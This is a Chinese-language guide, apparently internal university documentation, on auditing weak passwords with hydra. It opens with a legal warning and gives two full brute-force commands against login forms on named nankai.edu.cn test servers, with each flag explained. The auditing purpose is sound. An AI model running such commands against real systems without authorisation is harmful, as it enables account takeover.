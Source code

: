 # 使用 hydra 进行弱口令暴力破解

## 简述

hydra 是一个用于进行弱口令暴力破解的工具, 支持非常之多的协议, 是同类软件中的佼佼者

## 安全提醒

>>  根据《中华人民共和国治安管理处罚法》第二十九条规定： 有下列行为之一的，处五日以下拘留；情节较重的，处五日以上十日以下拘留：
>>
>>  (一)违反国家规定，侵入计算机信息系统，造成危害的；
>>
>> (二)违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行的；
>>
>> (三)违反国家规定，对计算机信息系统中存储、处理、传输的数据和应用程序进行删除、修改、增加的；
>>
>> (四)故意制作、传播计算机病毒等破坏性程序，影响计算机信息系统正常运行的。

## 安装

debian 系列系统, 可使用 `apt` 进行安装: `apt-get install hydra`

## 使用

hydra 需要依赖部分字典文件: 用户名/密码, 我们需要提供两个字典文件.

根据需要, 我们在该文档中提供了两个简单的字典文件, 可自行根据需要补充

其他更多说明请查看 [hydra 官方文档](https://www.thc.org/thc-hydra/)

hydra 检测支持协议、性能比较, 请查看 [这里](https://www.thc.org/thc-hydra/network_password_cracker_comparison.html)

## 部分产品弱口令扫描方法

### Lims-CF 弱口令检测

```
hydra less.nankai.edu.cn \
    http-form-post  \
    `"/login:token=^USER^&password=^PASS^&token_backend=database&submit=1:S=登出"` \
    -L users.txt \
    -P passwords.txt \
    -t 10 \
    -w 10 \
    -o lims2-cf.txt
```

* `less.nankai.edu.cn` 为测试服务器地址
* `http-form-post` 为 post 请求
* `"/login:token=^USER^&password=^PASS^&token_backend=database&submit=1:S=登出"` 分别分析:
    * /login 访问 login 页面
    * token 值为 `^USER^`, hydra 会依次从 users.txt 中读取
    * pasword  值为 `^PASS^`, hydra 会依次从 passwords.txt 中读取
    * token_backend 设定进行 本地用户 检测
    * submit 进行 submit 提交(lims2 中需要有 submit 才进行逻辑判断)
    * S 为 success 匹配结果, 即, 页面检测到了 登出, 则表示登录成功!
* `-L users.txt`, 设置可能弱口令的遍历用户
* `-P passwords.txt` 设置弱口令列表
* `-t 10`, 设定线程数
* `-w 10`, 设置等待时间(避免过多时间内请求导致被 ban 了)
* `-o lims2-cf.txt`, 设置结果输出


### mall

```
hydra beta.mall.nankai.edu.cn \
    http-form-post  \
    "/login:username=^USER^&password=^PASS^&backend=database:错误" \
    -L users.txt \
    -P passwords.txt \
    -t 10 \
    -w 10 \
    -o mall.txt
```

* `beta.mall.nankai.edu.cn` 为测试服务器地址
* `http-form-post` 为 post 请求
* `"/login:username=^USER^&password=^PASS^&token_backend=database&submit=1:S=登出"` 分别分析:
    * /login 访问 login 页面
    * username 值为 `^USER^`, hydra 会依次从 users.txt 中读取
    * pasword  值为 `^PASS^`, hydra 会依次从 passwords.txt 中读取
    * backend 值设定为 database, 进行 **本地用户** 检测
    * **错误** 为页面匹配到 **错误** 字样, 说明检测失败, 反之, 成功!
* `-L users.txt`, 设置可能弱口令的遍历用户
* `-P passwords.txt` 设置弱口令列表
* `-t 10`, 设定线程数
* `-w 10`, 设置等待时间(避免过多时间内请求导致被 ban 了)
* `-o mall.txt`, 设置结果输出
```
